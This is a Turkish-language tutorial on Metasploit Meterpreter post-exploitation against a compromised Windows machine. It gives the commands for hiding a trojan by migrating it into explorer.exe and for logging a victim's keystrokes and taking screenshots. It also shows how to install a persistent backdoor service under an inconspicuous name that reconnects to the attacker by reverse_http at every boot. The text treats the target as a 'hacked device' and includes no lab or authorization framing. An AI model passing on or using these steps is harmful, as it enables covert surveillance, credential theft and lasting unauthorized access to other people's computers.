

meterpreter
Bağlantı (hack) sonrası yapılacaklar
migrate (işlem göçü)
migrate bizim backdoor olarak oluşturduğumuz ve halihazırda çalışan trojanımızı, çalışan başka bir exe içine gömerek trojanımızın gizlenmesini sağlayan bir yöntemdir. Şimdi sızmış olduğumuz bir windows cihazda “ps” komutu ile çalışan programladı listeleyelim;
Burada da görüldüğü gibi “PID” yani ilk sütunda olan process id kısmını kullanarak kendi trojanımızı migrate edebileceğiz.
Şimdi windows da dosya sistemini görüntülemeye yarayan “explorer.exe” nin PID sini kullanarak migrate yapacağız.
burada ki “2824” “explorer.exe” nin PID si idi ve “migrate 2824” yazıp trojanımızı migrate ettik.
NOT: “migrate” işlemi hacklenen bir cihazda ilk yapılması gerekilen işlemlerden biridir!
Meterpreter ile Keylogger(keystroke) çalıştırmak
Keylogger yani klavyeden girilen değerleri dinlemek için aşağıda ki komutu kullanarak başlatabiliriz;
"keyscan_start" komutu ile keystroke sniffer yani klayvede basılan tuşları takip etmeye başladık. Eğer bu komuttan sonra basılan bütün klayve tuşlarını yani yazılanları görmek istiyorsak aşağıda ki komutu kullanıyoruz;
"keyscan_start" komutu ile başlattıktan sonra hacklenen makinede basılan tüm klavye tuşlarını görmek için resimde de gördüğümüz üzere “keyscan_dump” yazmamız yeterli.
Screenshot almak
"screenshot" komutunu yazmamız yeterli.
Hacklenen Cihazda Kalıcı Hale Gelmek
Öncelikle hacklediğimiz cihazda açmış olduğumuz session menüsünden bir önceki menüye “background” komutu ile dönüyoruz. Geri dönmemizin nedeni payload değiştirecek olmamız, çünkü farklı bir payload kullanacağız.
Yukarıda da görüldüğü gibi “use exploit/windows/local/persistence” persistence yani türkçe manası ile süreklilik, kalıcılık payload'ını kullanmaya ("use") başlıyoruz. Bu payload bizim trojanımızı bu cihaza service olarak enjekte etmemize yarıyor. Bu sayede hacklenen cihaz bilgisayarını her açıp internete bağlandığında cihaza yeniden erişim sağlayabileceğiz, hatta trojan bulunan exe dosyasını silse bile! Çünkü trojanımızı pc her açıldığında çalışacak şekilde bir service içine enjekte ediyoruz. Böylelikle bu cihazda kalıcı hale gelmiş oluyoruz.
Şimdi persistence payload'ının options kısmında bazı değişiklikler yapalım;
 "set EXE_NAME winexplore.exe" diyerek “winexplore.exe” adında bir service içine trojanımızı enjekte edeceğimizi ayarladık. Burada ki “winexplore.exe” adını biz verdik, yani herhangi bir isim verebiliriz. Dikkat çekmesin diye “winexplore.exe” dedik.
Ardından hangi session için bunu yapmak istediğimizi seçiyoruz (o an hangi session da karşı makinaya bağlıysak onun ID'si);
"set SESSION 1" diyerek session kısmını da belirledik.
Eğer istersek custom olarak kendi cihazımızda bulunan kendi oluşturduğumuz trojanı kullanmak istiyorsak bir değişiklik yapmamız gerekir. Bunun için “show advanced” komutu ile aşağıda ki kısmı açıyoruz;
ardından yukarıda ki resimde görüldüğü gibi “set EXE::Custom” komutunu kullanıp arından /var/www/html/bacdoors.... (kendi cihazımızda trojanı nereye koyduysak .exe uzantısına kadar yazıyoruz) şeklinde trojanın yerini belirtiyoruz.
NOT: Bunu yapmakta ki amacımız; eğer bunu yapmazsak sistem kendi oluşturduğu bir default trojan ekler, bizim trojanımızı değil.
Ayarı kontrol etmek için tekrar “show advanced” diyoruz ve;

EXE::Custom kısmında gördüğümüz gibi ayarımız geçerli olmuş.
Artık enjekte etmeye hazırız ve “exploit” komutu ile enjekte etmeyi başlatabiliriz;
"exploit" komutu sonrası bu şekilde bir ekran gelirse başarılı olmuş demektir.
Bundan sonra artık hangi yöntem ile hacklediysek eriştiysek ona dönebiliriz;

burda “reverse_http” kullanılmış o yüzden “use exploit/multi/handler” diyip “set PAYLOAD windows/meterpreter/reverse_http” diyip hacklediğimiz payload'a geri dönüyoruz.
Artık bundan sonra nasılsa önceden exploit ettik üstüne birde persistence kullanarak cihazda kalıcı hale geldiğimize göre, cihaz kapanıp açılsa bile açıldıktan ve internete bağlandıktan 10 saniye sonra (default olarak 10 saniye belirlenmişti istersek onu da değiştirebiliyoruz) reverse_http yöntemi ile oluşturduğumuz trojanımızı, ismini kendimiz belirlediğimiz ve içine kendi trojanımızı enjekte ettiğimiz ("persistence" payloadı ile) bir service (service adına "winexplore.exe" demiştik) sayesinde bizim cihazımıza bağlanacak.